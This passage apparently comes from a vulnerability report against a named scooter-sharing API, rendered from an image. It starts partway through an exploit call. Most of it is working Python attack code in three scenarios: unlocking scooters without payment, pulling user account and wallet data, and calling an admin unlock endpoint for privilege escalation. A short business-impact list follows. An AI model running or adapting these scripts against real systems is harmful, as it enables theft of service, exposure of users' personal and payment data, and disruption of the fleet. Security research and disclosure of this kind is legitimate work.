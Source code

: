 ```python
        json=payload,
        headers=headers
    )
    
    if response.status_code == 200:
        print(f"✅ Unlocked scooter {serial} without payment!")
```

### Scenario 2: User Account Compromise
```python
# Access user account data
response = requests.get("https://api.knotcity.io/api/application/users", headers=headers)
user_data = response.json()

# Access wallet information
response = requests.get("https://api.knotcity.io/api/application/users/wallet", headers=headers)
wallet_data = response.json()

print("🚨 Complete user account access achieved!")
print(f"User ID: {user_data.get('id')}")
print(f"Email: {user_data.get('email')}")
print(f"Wallet Balance: {wallet_data.get('balance')}")
```

### Scenario 3: Admin Privilege Escalation
```python
# Attempt admin operations
admin_payload = {
    "serialNumber": "SN12345",
    "latitude": 40.7128,
    "longitude": -74.0060,
    "force": True
}

response = requests.post(
    "https://api.knotcity.io/api/application/vehicles/unlock/admin",
    json=admin_payload,
    headers=headers
)

if response.status_code == 200:
    print("🚨 CRITICAL: Admin privileges achieved!")
    print("Can now control entire scooter fleet!")
```

## 💰 Business Impact Assessment

### Financial Impact:
- **Unauthorized Scooter Usage**: Unlock scooters without payment
- **Revenue Loss**: Potential for thousands of dollars in lost revenue per day
- **Account Manipulation**: Access to user wallets and payment systems
- **Service Disruption**: Complete disruption of scooter operations

